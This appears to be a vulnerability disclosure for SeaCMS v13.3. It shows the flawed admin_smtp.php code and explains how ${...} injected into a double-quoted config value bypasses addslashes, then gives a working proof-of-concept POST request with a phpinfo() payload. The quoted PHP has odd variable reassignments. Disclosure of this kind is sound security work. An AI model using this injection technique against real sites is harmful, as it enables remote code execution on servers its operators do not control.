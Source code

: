### Introduction

SeaCMS v13.3 contains a remote code execution (RCE) vulnerability. This vulnerability occurs because, although `admin_smtp.php` imposes certain restrictions on file editing, an attacker can bypass these restrictions and concatenate code in a way that allows the attacker to execute arbitrary commands. This allows an authenticated attacker to gain system privileges.

### Debugging Analysis and Vulnerability Exploitation

The latest version of SeaCMS, v13.3, contains a command execution vulnerability.


The vulnerable file `0omeqd/admin_smtp.php` uses PHP code concatenation, which is then written into the file data/admin/smtp.php. 

```php
<?php 	
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$weburl= $_POST['smtpserver'];
	$token = $_POST['smtpserverport'];
	$token = $_POST['smtpusermail'];
	$token = $_POST['smtpuser'];
	$token = $_POST['smtppass'];
	$open=fopen("../data/admin/smtp.php","w" );
	$str='<?php  ';	
	$str.='$smtpserver = "';
	$str.="$smtpserver";
	$str.='"; ';
	$str.='$smtpserverport = "';
	$str.="$smtpserverport";
	$str.='"; ';
	$str.='$smtpusermail = "';
	$str.="$smtpusermail";
	$str.='"; ';
	$str.='$smtpname = "';
	$str.="$smtpname";
	$str.='"; ';
	$str.='$smtpuser = "';
	$str.="$smtpuser";
	$str.='"; ';
	$str.='$smtppass = "';
	$str.="$smtppass";
	$str.='"; ';
	$str.='$smtpreg = "';
	$str.="$smtpreg";
	$str.='"; ';
	$str.='$smtppsw = "';
	$str.="$smtppsw";
	$str.='"; ';	
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("成功保存设置!","admin_smtp.php");
	exit;
}
```

The web page where this occurs is found in the backend management system under email server settings. We intercept the request after clicking "Confirm."  
![](./public/7-2.png)

Through debugging and tracing, we find that in `include/filter.inc.php`, the `_FilterAll` method applies the `addslashes` function to the incoming parameters, preventing direct bypass via string concatenation.  
![](./public/7-3.png)


However, since the variable assignment in the written file uses **double quotes**, and double quotes can parse PHP variables, we can exploit this by injecting `${...}` to execute arbitrary PHP code.

We inject PHP code into the `smtppsw` parameter with the following payload:  
```
smtppsw=${phpinfo()}
```

### Exploit PoC

Captured request:
```r
POST /0omeqd/admin_smtp.php?action=set HTTP/1.1

smtpserver=smtp.qq.com&smtpserverport=465&smtpusermail=12345%40qq.com&smtpname=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86%E7%BD%91&smtpuser=12345%40qq.com&smtppass=123456789&smtpreg=off&smtppsw=${phpinfo()}
```
![](./public/7-4.png)

Finally, visiting the PHP file executes the injected PHP code:  

```r
data/admin/smtp.php
```
![](./public/7-6png)